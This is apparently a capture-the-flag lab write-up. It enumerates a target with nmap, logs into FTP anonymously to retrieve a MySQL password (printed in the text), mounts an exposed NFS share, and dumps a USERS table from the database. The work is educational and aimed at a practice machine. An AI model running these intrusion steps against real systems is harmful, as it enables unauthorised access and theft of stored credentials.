 scan the target

```
nmap -A -T4 10.10.254.238
```

we can see a lot of open ports here (21 ftp, 22 ssh, 111 rpc, 2049 nfs, 3306 mysql)

![image](https://user-images.githubusercontent.com/90561566/209626327-db765ccf-fe97-438f-ab86-0e8192c00aff.png)

login ftp by anonymous acc

```
ftp 10.10.254.238
anonymous
```

![image](https://user-images.githubusercontent.com/90561566/209628133-20292d25-393a-46ca-8689-5e237149e6ea.png)

```
binary
get file.txt
exit
```

we have mysql password `ff912ADB*`

![image](https://user-images.githubusercontent.com/90561566/209628362-eeca2d6c-60c1-4396-b923-6cc6ef83aa28.png)

```
mkdir /mnt/thm
mount 10.10.254.238:/opt/files /mnt/thm
```

we have creds.txt

![image](https://user-images.githubusercontent.com/90561566/209629545-b5829fd6-1f3b-4139-9489-9032160068b1.png)

```
mysql -h 10.10.254.238 -u 'root' -p 'ff912ADB*'
show databases;
```

![image](https://user-images.githubusercontent.com/90561566/209630234-d2e8dda8-1bcf-4597-b28b-2f35415675af.png)

```
use data;
show tables;
select * from USERS;
```

![image](https://user-images.githubusercontent.com/90561566/209631080-cb73e125-564b-4eaa-afd5-aee551b9db97.png)

Answer

![image](https://user-images.githubusercontent.com/90561566/209633480-0a7572c6-a1df-4bc5-9b5d-c5ca6f5fae1d.png)

## Day 12: Elfcryption
